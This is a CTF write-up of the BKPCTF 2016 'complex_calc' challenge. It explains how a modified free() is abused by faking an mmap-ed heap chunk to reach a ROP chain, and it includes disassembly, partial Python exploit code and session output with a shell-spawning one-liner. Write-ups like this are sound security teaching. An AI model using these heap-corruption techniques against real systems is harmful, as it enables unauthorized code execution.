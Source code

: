 title: BKPCTF 2016 - Complex Calc
author: hugsy
category: ctf
tags: pwn, gef , ida , bkpctf-2016 , x86 , heap-overflow
date: 2016-03-08 00:00:00
modified: 2016-03-08 00:00:00


The challenge is the sequel to `simple_calc`. If you haven't read our [write-up](/posts/2016/03/07/bkpctf-2016-simple-calc-writeup.html), now is the time 😊


### Info ###


```bash
~ $ file d60001db1a24eca410c5d102410c3311d34d832c
d60001db1a24eca410c5d102410c3311d34d832c: ELF 64-bit LSB executable, x86-64, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=3ca876069b2b8dc3f412c6205592a1d7523ba9ea, not stripped
~ $ checksec.sh --file d60001db1a24eca410c5d102410c3311d34d832c
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX enabled    No PIE          No RPATH   No RUNPATH   d60001db1a24eca410c5d102410c3311d34d832c
```


### Vulnerability ###

At the very first look, `simple_calc` and `complex_calc` look totally
similar. Both are statically compiled, same protections, the vulnerability is
located at the same spot (i.e. stack overflow with a malloc-ed buffer we fully
control). Let's do some bindiffing!


One of my new toys for quite a few months now is IDA Python plugin
[diaphora](https://github.com/joxeankoret/diaphora) by Joxean Koret (aka
<a class="fa fa-twitter" href="https://twitter.com/matalaz" target="_blank"> matalaz</a>). By diffing then, the issue is immediately visible:

![image_alt](https://i.imgur.com/0tkaNNT.png)

The `free()` function was modified so we cannot benefit from the graceful exit
of the function by simply passing a NULL pointer. Now, `free()` will always
proceed with the address given as first parameter (therefore stored in $rdi).

So let's see how `free()`
works. [Some blogs](https://kitctf.de/writeups/0ctf2015/freenote) already explain very well how
[Glibc heap is structured](https://sploitfun.wordpress.com/2015/02/10/understanding-glibc-malloc/)
and how
[heap](http://phrack.org/issues/57/9.html)
[corruptions](http://winesap.logdown.com/posts/261369-plaid-ctf-2015-plaiddb-writeup)
work. So I will assume you know as well.

To stand on common ground, here is what a heap chunk looks like:

![image_alt](https://i.imgur.com/EVnKlBg.png)

When `free()` is called, some checks are made to know how the chunk must be
deallocated:

   1. If its size is below `MMAP_THRESHOLD` (default 128KB), then the chunk is
      deallocated and inserted into the free chunk doubly linked list. The
      pointers of the list are updated using the `unlink` macro.
   1. If the size is higher than `MMAP_THRESHOLD`, then the chunk was not
      allocated via the `brk`/`sbrk` syscall, but mapped in memory via the
      syscall `mmap`. If this heap chunk is `mmap`-ed, then its size will be a
      multiple of 2 (i.e. size & 2 = 2).

This actually shows quite well in the flow graph:

![image_alt](https://i.imgur.com/omGULMz.png)

Since we control what is written in the heap (same method than `simple_calc`),
we can control whether we want to deallocate using `unlink` or `munmap` (simply
by or-ing the QWORD interpreter as the chunk size with 2). If we go for using
the regular deallocator, we need to fake our heap chunk in such a way that it will
pass all the checks performed later on. Any failure on the address will
`abort()` the program, making it enable to reach the `ret` instruction, and
therefore triggering our ROP chain.

On the other hand, the `munmap()` function is actually fairly straight-forward:

```bash
.text:0000000000435670 munmap          proc near               ; CODE XREF: __assert_fail_base+110
.text:0000000000435670                                         ; _nl_load_domain+4C9 ...
.text:0000000000435670                 mov     eax, 0Bh        ; Alternative name is '__munmap'
.text:0000000000435675                 syscall
.text:0000000000435677                 cmp     rax, -0FFFh
.text:000000000043567D                 jnb     __syscall_error
.text:0000000000435683                 retn
.text:0000000000435683 munmap          endp
```

If the syscall fails, it will nicely set $rax to a negative value and
return back to `free()`, which will return (in error as well but we don't care)
to our main loop, which can then return nicely too and trigger our
code. Perfect! Let's go with this!


### Exploitation ###

So we are going to use the arithmetic operators and result locations in the
`.bss` since they are at predictable, bearing in mind that each one of them is
only a DWORD (whereas we are here on x86-64 architecture). We will want to set
the following mapping:

```bash
.bss:00000000006C4A88 add_result      dd ?                    ; <-- previous chunk size
.bss:00000000006C4A8C                 align 10h
.bss:00000000006C4A90 div_operator_1  dd ?                    ; <-- chunk size (need to | 2 for flag IS_`mmap`-ed)
.bss:00000000006C4A94 div_operator_2  dd ?                    ; <--
.bss:00000000006C4A98 div_result      dd ?                    ; <-- free will point @this chunk
.bss:00000000006C4A9C                 align 10h
```

We will point the $rdi used by the `free()` call pointing to `div_result`. But
now which value should we use then for operator_1 and operator_2 ?

Let's go back to `free()` flow graph:

![image_alt](https://i.imgur.com/7ZEy4nD.png)

As we see, several conditions must be filled:

   1. `chunk_size = div_operator_2 | div_operator_1` (and **must** be divisible by 2).
   1. `prev_size  = dword_padding  | add_result`
   1. `0x0fff & ((@prev_size-prev_size) | (prev_size+size&0xfff...ff8)) == 0`

If we passed those checks, $rcx will have the address to `munmap()`, and $rsi
the range to deallocate. `add_result` is at 0x6C4A88 so we must ensure the three
last nibbles end with 0xa88 to nullify the substration. We decide to store in
`add_result` the value 0x0x11111a88 as the addition of 0x11110a88 and 0x1000

```python
    # set add_result
    s.read_until("=> ")
    op1 = 0x11110a88
    op2 = 0x00001000
    do_add(s, op1, op2)
    ok("prev_size=%#x+%#x=%#x" % (op2, op1, op1+op2))
```

Now that we have `prev_size`, we can make up a value for `size` too. But here is
the trick, the value of `size` will end in $rdi when `munmap` syscall will
happen. If we point to a valid address, it will be unmapped and our exploit will
fail. So to be safe, we will use a huge valid and let the kernel throw us away
:) Here we used 0x7fffdeaa0000.

`size = 0x7fffdeaa0000 - 0x11111a88 = 0x9ffffeee578`

Splitting the result into 2 DWORD and we have div_operator_1=0xfffeee578 and
div_operator_2=0x9f.

```python
    # set div_1 and div_2
    s.read_until("=> ")
    op2, op1  = 0x9f, 0xfffeee578 | 2
    do_div(s, op1, op2)
    ok("size=0x%.8x%.8x" % (op2, op1))
```

The rest of the exploit is exactly similar to the one used for `simple_calc`!

Fire up!
```bash
$ ./complex_calc.py                                                                                                                                       [23:43]
[+] Connected to simplecalc.bostonkey.party:5500
[+] Running 47 calculations
[+] Building fake chunk 0x6c4a98
[+] prev_size=0x1000+0x11110a88=0x11111a88
[+] size=0x0000009ffffeee57a
[+] Got it, interacting (Ctrl-C to break)
[+] Get a PTY with ' python -c "import pty;pty.spawn('/bin/bash')"  '
cat key
BKPCTF{th3 l4st 1 2 3z}
```

And we get `BKPCTF{th3 l4st 1 2 3z}`

The full exploit is [here](https://gist.github.com/hugsy/7bcb5db17b75a86ae3bd).
